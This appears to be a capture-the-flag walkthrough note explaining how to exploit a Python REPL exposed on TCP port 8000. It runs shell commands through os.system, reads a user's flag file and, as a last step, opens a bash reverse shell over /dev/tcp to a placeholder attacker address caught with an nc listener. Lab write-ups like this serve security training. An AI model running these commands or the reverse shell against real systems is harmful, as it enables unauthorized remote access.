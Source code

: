 # PYTHON CODE FOR SHELL EXECUTION in netcat

* That service on port `8000` isn’t a normal shell.
* It’s a **Python REPL (interpreter)** exposed over TCP.
* That’s why when you typed `ls`, it said *“name 'ls' is not defined”* — because `ls` isn’t a Python command, it’s a Linux one.

###✅ Next Steps (Enumeration in a Python REPL)

1. **Confirm Python Execution**

   * Try something simple:

     ```python
     2+2
     ```

     If it returns `4`, you know you’re inside Python.

2. **Import OS Commands**

   * You can use Python’s `os` or `subprocess` to run shell commands.
   * Example:

     ```python
     import os
     os.system("ls")
     ```

     or:

     ```python
     __import__('os').system('id')
     ```

3. **Check Current User / Privileges**

   ```python
   os.system("whoami")
   os.system("id")
   ```

4. **Explore Filesystem**

   ```python
   os.system("ls -la /")
   os.system("ls -la /home")
   ```

5. **Search for the Flag**

   * Usually in `/home/<user>` or `/root`.

   ```python
   os.system("cat /home/pyrat/user.txt")
   ```

6. **(If Needed) Upgrade Shell**

   * Sometimes you can spawn a reverse shell back to your machine:

     ```python
     os.system("bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1")
     ```

     Then catch it with:

     ```bash
     nc -lvnp <your-port>
     ```


